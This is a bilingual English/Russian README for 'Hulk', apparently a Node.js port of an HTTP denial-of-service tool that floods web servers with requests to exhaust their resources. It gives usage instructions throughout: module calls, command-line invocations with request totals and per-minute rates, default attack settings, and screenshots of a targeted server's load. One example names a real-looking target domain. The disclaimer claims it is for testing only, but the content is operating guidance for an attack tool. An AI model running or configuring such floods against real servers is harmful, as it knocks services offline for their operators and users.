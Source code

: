 ﻿﻿
# Hulk v1.0.0
DoS Attack tools (for testing purposes only)

## EN

Quotation of the original file:
"This tool is a dos tool that is meant to put heavy load on HTTP servers in 
order to bring them to their knees by exhausting the resource pool, 
its is meant for research purposes only and any malicious usage of this tool is prohibited."
Originaly (python) author :  Barry Shteiman - http://www.sectorix.com/2012/05/17/hulk-web-server-dos-tool/
	
Rewritten with python (concept) under nodejs, optimized by Siarhei Dudko

- Dependencies
  - http
  - https
  - colors
  - url
  - fs
  
- Module connection (examples of using):
  - hulk.core - basic function of the module
	```
		var hulkCore = require(__dirname + '/index.js').core;
		hulkCore('http://link.com ', '', 'GET', 20, 100, log);
	```
  - hulk.cli - function for working with the console (takes the arguments of the process for stdin and outputs stdout in console.log)
	```
		var hulkCli = require(__dirname + '/index.js').cli;
		hulkCli();
		
		node you_script.js http://link.com dsdsdsds POST 100 1000
	```
  - hulk.file - function for working with the log file
	```
		var hulkFile = require(__dirname + '/index.js').file;
		hulkFile('http://link.com', '', 'GET', 20, 100, __dirname + '/test.log');
	```
  - hulk.func - function for working with callback function (return the output array of the console to callback)
	```
		var hulkFunc = require(__dirname + '/index.js').func;
		hulkFunc('http://alenmoroz.tk/', '', 'GET', 20, 100, console.log);
	```
  
- Setting (function arguments for hulk.core, hulk.file, hulk.func)
  - set_you_link - link to you server, formated "https://test.com/"
  - set_this_data - data to request (not use for GET request)
  - set_this_method - type request (GET, POST and others)
  - set_req_total - number of requests for attack
  - set_req_in_min - limit download of requests per minute
  - stdout  (for hulk.core, hulk.func) - output function (console.log or write to file)
  - path (for hulk.file) - path to the file for report output
  
- Setting (process arguments for hulk.cli)
  - Default values:
	```
	  - set_you_link - http://you_link.com/
	  - set_this_data - ''
	  - set_this_method - GET
	  - set_req_total - 20k
	  - set_req_in_min - 10k/min
	```
  - With the argument set_this_data:
	```
	  node you_script.js set_you_link set_this_data set_this_method set_req_total set_req_in_min
	  node you_script.js http://link.com dsdsdsds POST 100 1000

	  - set_you_link - http://link.com
	  - set_this_data - dsdsdsds
	  - set_this_method - POST
	  - set_req_total - 100
	  - set_req_in_min - 1000 req/min
	```
  - Without the argument set_this_data:
	```
	  node you_script.js set_you_link set_this_method set_req_total set_req_in_min
	  node you_script.js http://link.com GET 1000 1000

	  - set_you_link - http://link.com
	  - set_this_data - ''
	  - set_this_method - GET
	  - set_req_total - 1000
	  - set_req_in_min - 1000 req/min
	```
  - Using the default settings:
	```
	  node you_script.js set_you_link set_this_method set_req_total
	  node you_script.js http://link.com GET 2000

	  - set_you_link - http://link.com
	  - set_this_data - ''
	  - set_this_method - GET
	  - set_req_total - 2000
	  - set_req_in_min - 10k req/min
	```

## RU  

Софт для DoS атаки на сервер. Исключительно для тестирования собственных продуктов. 
Использование в противозаконных целях запрещено. Идея навеяна аналогичным скриптом на python(Barry Shteiman - http://www.sectorix.com/2012/05/17/hulk-web-server-dos-tool/).
На основании её и реализовал в javascript(nodejs). Плюшки асинхронного языка в комплекте.

- Зависимости
  - http
  - https
  - colors
  - url
  - fs
  
- Подключение модуля (примеры использования):
  - hulk.core - основная функция модуля
	```
		var hulkCore = require(__dirname + '/index.js').core;
		hulkCore('http://link.com ', '', 'GET', 20, 100, log);
	```
  - hulk.cli - функция для работы с консолью (принимает аргументы процесса за stdin и выводит stdout в console.log)
	```
		var hulkCli = require(__dirname + '/index.js').cli;
		hulkCli();
		
		node you_script.js http://link.com dsdsdsds POST 100 1000
	```
  - hulk.file - функция для работы с лог-файлом
	```
		var hulkFile = require(__dirname + '/index.js').file;
		hulkFile('http://link.com', '', 'GET', 20, 100, __dirname + '/test.log');
	```
  - hulk.func - функция для работы с каллбэк-функцией (вернет массив вывода консоли в каллбэк)
	```
		var hulkFunc = require(__dirname + '/index.js').func;
		hulkFunc('http://alenmoroz.tk/', '', 'GET', 20, 100, console.log);
	```

- Настройка (аргументы функции hulk.core, hulk.file, hulk.func)
  - set_you_link - ссылка для атаки "https://test.com/"
  - set_this_data - данные REST запроса (могут быть пустыми)
  - set_this_method - вид запроса (GET, POST и др.)
  - set_req_total - общее число запросов к серверу
  - set_req_in_min - предел скорости запросов к серверу (запросов в минуту)
  - stdout (для hulk.core, hulk.func) - функция вывода (console.log или запись в файл)
  - path (для hulk.file) - путь к файлу для вывода отчета
  
- Настройка (аргументы процесса hulk.cli)
  - Значения по умолчанию:
	```
	  - set_you_link - http://you_link.com/
	  - set_this_data - ''
	  - set_this_method - GET
	  - set_req_total - 20k
	  - set_req_in_min - 10k/min
	```
  - В случае передачи аргумента set_this_data:
	```
	  node you_script.js set_you_link set_this_data set_this_method set_req_total set_req_in_min
	  node you_script.js http://link.com dsdsdsds POST 100 1000

	  - set_you_link - http://link.com
	  - set_this_data - dsdsdsds
	  - set_this_method - POST
	  - set_req_total - 100
	  - set_req_in_min - 1000 req/min
	```
  - Без передачи аргумента set_this_data:
	```
	  node you_script.js set_you_link set_this_method set_req_total set_req_in_min
	  node you_script.js http://link.com GET 1000 1000

	  - set_you_link - http://link.com
	  - set_this_data - ''
	  - set_this_method - GET
	  - set_req_total - 1000
	  - set_req_in_min - 1000 req/min
	```
  - Используя параметры по умолчанию:
	```
	  node you_script.js set_you_link set_this_method set_req_total
	  node you_script.js http://link.com GET 2000

	  - set_you_link - http://link.com
	  - set_this_data - ''
	  - set_this_method - GET
	  - set_req_total - 2000
	  - set_req_in_min - 10k req/min
	```
  
## SCREENSHOTS

- Внешний вид атаки/Appearance of attack

![Screenshot_1](https://github.com/siarheidudko/hulk/raw/master/img/Screenshot_1.png)

- Вывод итоговой статистики/Output of summary statistics

![Screenshot_2](https://github.com/siarheidudko/hulk/raw/master/img/Screenshot_2.png)

- Вот так это выглядит в CPanel атакуемого сервера (напомню, что убить сервер цели не было - потому атаки были не продолжительны)/This is how it looks in the CPanel of the attacked server (I recall that there was no goal to kill the server - therefore, the attacks were not long)

![Screenshot_3](https://github.com/siarheidudko/hulk/raw/master/img/Screenshot_3.png)

![Screenshot_4](https://github.com/siarheidudko/hulk/raw/master/img/Screenshot_4.png)

![Screenshot_5](https://github.com/siarheidudko/hulk/raw/master/img/Screenshot_5.png)

![Screenshot_6](https://github.com/siarheidudko/hulk/raw/master/img/Screenshot_6.png)
